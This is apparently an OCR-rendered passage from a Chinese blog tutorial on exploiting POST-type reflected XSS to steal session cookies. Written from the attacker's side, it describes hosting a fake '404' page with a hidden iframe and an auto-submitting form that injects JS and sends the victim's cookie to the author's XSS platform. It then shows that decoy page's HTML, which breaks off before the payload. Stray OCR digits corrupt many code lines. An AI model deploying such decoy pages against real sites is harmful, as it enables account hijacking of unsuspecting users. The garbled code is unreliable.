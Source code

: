 


![](https://img-blog.csdnimg.cn/20190415092259653.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



而我们的XSS平台将得到用户的Cookie，然后我们就可以利用得到的Cookie以用户的身份访问该网站了。



![](https://img-blog.csdnimg.cn/20190128220003931.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



注：我们的攻击代码可以利用的前提是存在XSS漏洞的网站的X-Frame-options未配置，并且会话Cookie没有设置Http Only属性



### post型



我们现在知道一个网站的用户名输入框存在反射型的XSS漏洞



![](https://img-blog.csdnimg.cn/2019013018333170.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



我们抓包查看



![](https://img-blog.csdnimg.cn/20190130191523710.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



我们构造了如下代码，将其保存为html页面，然后放到我们自己的服务器上，做成一个链接。当用户登录了存在漏洞的网站，并且用户点击了我们构造的恶意链接时，该恶意链接的页面加载完后会执行js代码，完成表单的提交，表单的用户名参数是我们的恶意js代码。提交完该表单后，该js代码会把存在漏洞网站的cookie发送到我们的平台上，但是用户却浑然不知，他会发现打开的是一个404的页面。



我们这里写了一个404页面，404页面中隐藏了一个form提交的表单，为了防止提交表单后跳转，我们在表单下加了一个iframe框架，并且iframe框架的name等于form表单的target，并且我们设置iframe框架为不可见。



```
<!DOCTYPE html>      
<html>      
<head>      
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">      
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">      
    <title>404 页面不存在 </title>      
    <style type="text/css">      
        body{font:14px/1.5 'Microsoft YaHei','微软雅黑',Helvetica,Sans-serif;min-width:1200px;background:#f0f1f3;}      
        .error-page{background:#f0f1f3;padding:80px 0 180px}      1
        .error-page-main{position:relative;background:#f9f9f9;margin:0 auto;width:617px;-ms-box-sizing:border-box;-webkit-box-sizing:border-box;-moz-box-sizing:border-box;box-sizing:border-box;padding:50px 50px 70px}      1
        .error-page-main h3{font-size:24px;font-weight:400;border-bottom:1px solid #d0d0d0}      1
        .error-page-main h3 strong{font-size:54px;font-weight:400;margin-right:20px}      1
    </style>      1
     <script type="text/javascript">      1
        function attack()      1
        {      1
            document.getElementById("transfer").submit();      1
        }      1
    </script>      2
</head>      2
<body>      2
<iframe src="form.html" frameborder="0" style="display: none"></iframe>      2
<div class="error-page">      2
    <div class="error-page-container">      2
```